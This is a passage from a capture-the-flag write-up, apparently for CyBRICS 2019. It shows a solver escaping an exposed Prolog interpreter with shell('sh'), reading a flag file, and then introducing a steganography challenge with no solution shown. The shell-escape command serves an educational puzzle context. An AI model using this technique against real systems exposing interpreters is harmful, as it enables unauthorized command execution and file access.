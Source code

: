 ```bash
access_level                    c_stack                         cut_exit                        eval
acos                            call                            cut_parent                      evaluable
acosh                           call_continuation               cycle                           evaluation_error
active                          callable                        cycles                          event_hook
acyclic_term                    canceled                        cyclic_term                     exception
add_import                      case_insensitive                date                            exclusive
address                         case_preserving                 db_reference                    execute
... skipped 54 rows
```

After some googling, I found an easy way to get a shell and to display the flag:

```bash
?- shell('sh').
$
$ cd /home
$ ls
user
$ cd user
$ ls
flag.txt
$ cat flag.txt
cybrics{feeling_like_a_PRO?_that_sounds_LOGical_to_me!____g3t_it?_G37_1T?!?!_ok_N3v3Rm1nd...}
```

Flag: `cybrics{feeling_like_a_PRO?_that_sounds_LOGical_to_me!____g3t_it?_G37_1T?!?!_ok_N3v3Rm1nd...}`

## [Stegano] Honey, Help!
### Statement
>Honey, Help! (rebyC, Baby, 10 pts)
>
>Author: Vlad Roskov (vos)
>
>Added at 10:50 UTC: there was a typo in the flag. Please re-submit.
>
>HONEY HELP!!!
>
>I was working in my Kali MATE, pressed something, AND EVERYTHING DISAPPEARED!

![honeyHELP]({{ "/assets/2019-07-21/honey_help.png" | absolute_url }} "honey help")

### Resolution

